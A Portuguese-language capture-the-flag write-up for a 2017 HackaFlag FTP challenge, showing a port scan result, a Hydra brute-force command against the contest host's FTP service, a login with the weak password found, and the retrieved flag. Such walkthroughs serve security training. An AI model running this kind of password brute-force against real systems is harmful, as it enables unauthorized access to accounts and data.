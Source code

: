 ```yaml
---
title: HackaFlag 2017 - Goiania MISC 100
date: 2017-03-09 09:36:00 Z
---
```


**Category:** Misc
**Points:** 100
**Description:**

>FTP
O administrador é o usuario, preocupado com a segurança, 
sabe os riscos de deixar os serviços como por exemplo 
ftp e ssh desatualizados, por vezes, senhas fracas tambem 
são grandes portas de entrada. IP: 45.55.184.240

Autor: @chucky


# Write-up:


Após um SCAN, detectamos o FTP na porta: 2021


Vamos usar Brute-force e encontra essa senha, para isso
você pode usar o Hydra ou o Nozzlr (https://github.com/intrd/nozzlr)

```bash
# hydra -l administrador -P senhas.txt 45.55.184.240 ftp -s 2021
```

Descobrindo a senha, logue no FTP:

```bash
# ncftp -u usuario 45.55.184.240 -P 2021

Password requested by 45.55.184.240 for user "usuario".

    Password required for usuario

Password: 123123

User usuario logged in
ncftp /home/usuario > ls
.bash_history   .bash_logout    .bashrc         flag.txt        .profile        .viminfo
ncftp /home/usuario > get flag.txt 
flag.txt:                                        30,00/ 29,00 B  172,05 B/s   
```

```bash
# cat flag.txt

HACKAFLAG{Eu_MaNJo_DoS_BrUt}
```
